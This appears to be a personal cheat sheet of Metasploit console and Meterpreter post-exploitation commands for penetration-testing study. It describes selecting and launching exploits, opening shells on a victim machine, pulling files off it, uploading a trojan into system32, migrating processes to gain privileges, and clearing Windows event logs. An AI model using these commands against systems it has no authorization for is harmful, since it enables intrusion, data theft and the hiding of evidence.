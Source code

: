 # Basic Commands I used for metasploit

## Links

https://www.exploit-db.com/docs/english/18229-white-paper--post-exploitation-using-meterpreter.pdf
https://www.offensive-security.com/metasploit-unleashed/

## Rough listing Metasploit

* ```msfconsole``` in bash starts the metasploit framework.
* ```?/help``` for starting help menu.
* ```sessions``` lists all the current sessions.
* ```search <modulename>``` searches module names and descriptions.
* ```use <path_to_exploit_module/number_fromSearchResult>``` select the module specified with the module path.
* ```info``` displys the module specified with the name.
* ```options``` displays the available options for the module specified.
* ```set <option> <value>``` sets the value for the specified option for the selected module.
* ```set payload``` sets the payload to be used for the operation.
* ```show <category>``` displays the options in specific category
* ```advanced``` displays the advanced options for the module specified.
* ```exploit``` starts the process of exploitation after the module is selected and configured accordingly.
	* ```exploit -j``` starts the process of exploitation in the background
	* ```exploit -i``` starts the process of exploitation in interactive mode. Gives a meterpreter shell after exploitation.

## Rough listing Meterpreter

* ```getuid``` will return the username of the victim machine.
* ```background``` sends the meterpreter shell into the background and starts msf shell again. 
* ```clearev``` Will clear application, system and security logs on a windows system.
* ```download <filename>``` downloads the specified file in the attacker machine.
* ```edit <filename>``` will start a vim like text editor in the victim machine.
* ```execute [flags] <executable>``` executes the specified executable in the machine.
* ```upload evil_trojan.exe c:\\windows\\system32``` uploads file in the victim machine.
* ```ps``` shows the running processes in the victim machine.
	* ```migrate``` is used for migrating processes. It's used for privilage escallation as some processes may run with more privilages.
* ```shell``` starts an interactive shell in the victim machine.
* ```search <filename/pattern>``` searches the specified file in the victim machine.
